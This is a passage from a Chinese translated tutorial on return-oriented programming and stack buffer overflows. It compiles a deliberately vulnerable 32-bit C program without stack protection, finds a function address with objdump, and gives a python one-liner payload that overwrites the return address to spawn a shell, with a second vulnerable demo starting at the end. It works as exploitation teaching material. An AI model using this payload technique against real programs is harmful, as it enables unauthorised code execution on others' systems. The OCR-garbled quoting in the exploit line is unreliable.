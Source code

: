 我们上文说了，ROP技术并不能绕过Canay保护措施，所以我们编译这个程序的时候需要关闭堆栈保护程序。我们可以利用下面的命令编译。

```
$ gcc hack_me_2.c -o hack_me_2 -fno-stack-protector -m32
```



**译者的程序分析**

我先看看代码，再翻译作者的文章。我们看到，在exploitable()函数中，设置了16字节的缓冲区，但是值得我们注意的是scanf函数没有安全的使用，这导致我们可以写入超过16字节，这就导致了缓冲区溢出的可能。我们用注意到，有个函数调用了sytem("/bin/sh")，这里我们就可以假设，如果我们可以操作函数调转，去调用grant()函数，我们就可以拿到shell了。 基本上思路就是这样的。

读取程序的内存映射，我们可以看到它的栈是只读/ 不可执行的。

[![](./img/85619/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01484b0d7fb01db666.png)

<br>

**让我们尝试控制EIP**

由于scanf不执行绑定的check，因此我们可以通过覆盖函数的返回地址来指向某个已知位置来控制EIP。我会尝试指向它grant()达到getshell的目的。我们可以通过objdum工具，来获取grant()的地址。

除了利用objdump来看，当然我们还是可以用IDA查找的。

objdump命令如下

```
$ objdump -d ./hack_me_2 | grep grant
```

结果应该看起来是这样的



```
080484cb &lt;grant&gt;：
 8048516：e8 b0 ff ff ff call 80484cb &lt;grant&gt;
```

接下来就是写exp，达到目的了。

```
$（python -c'print“A”* 28 +“ xcb  x84  x04  x08”' ; cat  - ）| ./hack_me_2
```

<br>

**这里译者补充几点**

第一: 为什么是28个字节？这个是需要我们自己去分析的，我们需要计算两者直接字节数的值，才好控制跳转，毕竟本文是基于我们了解缓冲区溢出知识后的，如果有疑问，可以留言，或者自寻百度。

第二: 从代码来看，我们可以知道原文作者的环境是基于32位的，所以这里需要了解一下小端的知识。

运行上述代码之后，我们就可以成功getshell了。

很明显，大多数程序不会为你调用shell这个很容易，我们需要修改程序让demo更贴近现实一点。



```
#include &lt;stdio.h&gt;
#include &lt;string.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdlib.h&gt;
char *shell = "/bin/sh";
void grant() {
   system("cowsay try again");
}
void exploitable() {
   char buffer[16];
   scanf("%s", buffer);
   if(strcmp(buffer,"pwned") == 0) grant();
   else  puts("Nice tryn");
}
int main(){
   exploitable();
```